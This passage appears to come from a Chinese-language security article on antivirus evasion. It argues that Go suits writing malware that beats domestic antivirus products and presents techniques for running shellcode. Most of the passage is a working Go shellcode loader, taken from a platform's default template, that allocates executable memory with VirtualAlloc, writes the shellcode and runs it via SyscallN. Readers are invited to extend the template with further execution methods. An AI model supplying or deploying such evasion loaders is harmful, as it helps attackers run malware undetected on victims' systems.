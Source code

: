 同样的代码，有了 nim 的“包裹”，也会为逆向分析增加一定难度

[![](assets/1706254282-aeb6f8e1c3ebf151bb925569b9212a95.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125223014-40e0b864-bb8e-1.png)

# Go 免杀

平台自带的杀软对抗方案主要是 Go 语言的，使用 Go 语言来编写恶意软件，有几个优点：相对 C 语言，语法简单，库生态也较为丰富（对于对抗杀软来说，例如 syscall，c 语言有的 api go 也有），缺点是生成体积较大。但对抗国内杀软已经足够。

下面是 golang 调用 Shellcode 的几种方式，SyscallN 已经集成在默认模板中，CreateThread 和 EnumThreadWindows 的方式在读完文章后可以自行加入到模板中

## SyscallN

这是平台自带模板中的代码片段，加载器通过 syscall 直接系统调用来申请一块内存，使用自实现的 WriteMemory 函数来将 Shellcode 写入到内存中，然后调用 SyscallN 来执行。

```plain
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    syscall.SyscallN(Ptr1, 0, 0, 0, 0)
}
```

